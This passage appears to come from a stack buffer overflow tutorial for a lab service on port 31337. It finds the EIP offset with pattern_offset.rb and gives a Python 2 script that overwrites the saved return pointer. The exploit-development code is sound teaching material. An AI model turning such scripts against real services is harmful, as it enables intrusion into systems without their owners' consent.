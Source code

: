 For this service we got `39654138`.

So lets convert hex into ascii `9eA8`

So lets find it in pattern_creater.rb output
`pattern_offset.rb -q 39654138` > 146

So this is the position of the 4 bytes that overwritten EIP.

At the same time 
ESP -  `Af0A` position 150
EIP -  	`9eA8` position 146

So as you see that there is a difference of 4bytes which makes sense as Saved return Pointer (EIP position) written by sprinf() and then later reutned to.

**When RET executed:**
- Takes the value at the top of the stack (where ESP points to ) and set carelessly it in EIP.
- Increments ESP by 4, so that it points at the next item "down" the stack.

EIP control:
```python

#!/usr/bin/env python2
import socket

# set up the IP and port we're connecting to
RHOST = "192.168.43.142"
RPORT = 31337

# create a TCP connection (socket)
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))
 # build a happy little message followed by a newline


#Validation of EIP 
buf_totlen = 1024
offset_srp = 146
# validation of EIP ends

buf = ""
buf += "A"*(offset_srp - len(buf)) # padding
buf += "BBBB" # SRP overwrite EIP
buf += "CCCC" # ESP should end up pointing here
buf += "D"*(buf_totlen - len(buf)) #trailing padding



buf += "\n"
 # send the happy little message down the socket
s.send(buf)
 # print out what we sent
print "Sent: {0}".format(buf)
 # receive some data from the socket
data = s.recv(1024)
 # print out what we received
print "Received: {0}".format(data)
```

